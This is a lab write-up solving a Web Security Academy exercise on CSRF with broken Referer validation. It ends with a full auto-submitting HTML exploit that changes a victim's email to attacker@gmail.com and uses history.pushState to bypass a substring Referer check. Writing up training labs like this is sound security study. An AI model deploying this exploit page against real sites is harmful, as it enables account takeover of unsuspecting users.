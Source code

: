 # Lab: CSRF with broken Referer validation

> Lab Objective: use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

- Login using the provided credentials `wiener:peter`, then inspect the login request and response, you'll notice that the Cookie's SameSite restriction is explicitly assigned as `SameSite=None`
  ![1st Screenshot](./attachments/1.png)

- Try change email functionality, then inspect the request and response.

  - Normal Request:
    ![2nd Screenshot](./attachments/2.png)
  - Replacing the value of the `Referer` header to `https://attacker.com`, results in an invalid request.
    ![3rd Screenshot](./attachments/3.png)

- But When adding a domain I control before the domain of the website, the request is accepted and processed as normal.
  ![4th Screenshot](./attachments/4.png)

- To perform something like that you need 2 things:

  - Use this JS function in your exploit code, which will add the URL of the target in the query string of the domain I control in the `Referer` header:
    `history.pushState("", "", "/?YOUR-LAB-ID.web-security-academy.net")`
    - Which will result to something like that:
      `https://attacker.com/?YOUR-LAB-ID.web-security-academy.net`
  - But most Browsers strip the URL query string from the `Referer` header by default as a security mechanism, in order to cure something like this, add this header to your request headers:
    `Referrer-Policy: unsafe-url`
  - Which ensures that the full URL will be sent, including the query string.

- The Exploit code:

```html
<html>
  <body>
    <form
      action="https://0a64006b044b36da81f60c93007f0062.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <input type="hidden" name="email" value="attacker@gmail.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState(
        "",
        "",
        "/?0a64006b044b36da81f60c93007f0062.web-security-academy.net"
      );
      document.forms[0].submit();
    </script>
  </body>
</html>
```

- The Lab is solved successfully/
  ![5th Screenshot](./attachments/5.png)
